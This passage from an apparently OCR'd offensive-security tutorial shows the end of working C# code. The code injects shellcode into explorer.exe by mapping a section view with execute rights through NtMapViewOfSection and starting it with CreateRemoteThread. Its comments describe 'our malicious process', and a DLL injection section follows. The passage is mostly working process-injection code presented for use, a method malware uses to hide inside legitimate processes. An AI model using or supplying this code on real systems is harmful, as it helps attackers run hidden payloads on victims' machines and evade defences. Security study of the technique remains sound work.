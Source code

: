 ```csharp
            // We then call NtMapViewOfSection. The difference between this call and the second call is that we pass the targeted process handle, along with the remote_section_addr.
            // We tell NtMapViewOfSection that the section view we want to map in the targeted process can be obtained through ptr_section_handle at local_section_offset.
            // We also pass 0x20 in the last parameter to indicate PAGE_EXECUTE_READ so that we can execute our shellcode.
            var process = Process.GetProcessesByName("explorer")[0];
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, process.Id);
            IntPtr ptr_remote_section_addr = IntPtr.Zero;
            UInt32 remote_map_view_status = NtMapViewOfSection(ptr_section_handle, hProcess, ref ptr_remote_section_addr, IntPtr.Zero, IntPtr.Zero, ref local_section_offset, ref buffer_size, 0x2, 0, 0x20);

            // Check whether the operation was successful
            if (remote_map_view_status != 0 || ptr_remote_section_addr == IntPtr.Zero)
            {
                Console.WriteLine("[-] An error occured while mapping the view within the remote section.");
                return -1;
            }
            Console.WriteLine("[+] The remote section view's been mapped successfully with PAGE_EXECUTE_READ access.");
            Console.WriteLine("[*] ptr_remote_section_addr: 0x" + String.Format("{0:X}", (ptr_remote_section_addr).ToInt64()));

            // Now the shellcode is mapped within the targeted process's VAS.
            // There's no point of keeping our shellcode in the current process's VAS, so we will unmap the section we mapped in the our malicious process and close the handle which can be done through NtUnmapViewOfSection and NtClose respectively.
            NtUnmapViewOfSection(GetCurrentProcess(), ptr_local_section_addr);
            NtClose(ptr_section_handle);

            // In case everything goes as planned, we should have a pointer to our shellcode within the targeted process explorer.exe. This pointer is ptr_remote_section_addr.
            // We're going to use CreateRemoteThread to execute the shellcode within the targeted process. The code can be written as follows:
            CreateRemoteThread(hProcess, IntPtr.Zero, 0, ptr_remote_section_addr, IntPtr.Zero, 0, IntPtr.Zero);

            // hProcess is a handle to the target process.
            // ptr_remote_section_addr is the address which our shellcode is located at.
            return 0;
        }
    }
}
```

### DLL Injection

When a process needs to use an API from a DLL, it calls the _LoadLibrary_ API to load it into virtual memory space. In our case, we want the remote process to load our DLL using Win32 APIs. Unfortunately, _LoadLibrary_ can not be invoked on a remote process, so we'll have to perform a few tricks to force a process like explorer.exe to load our DLL.
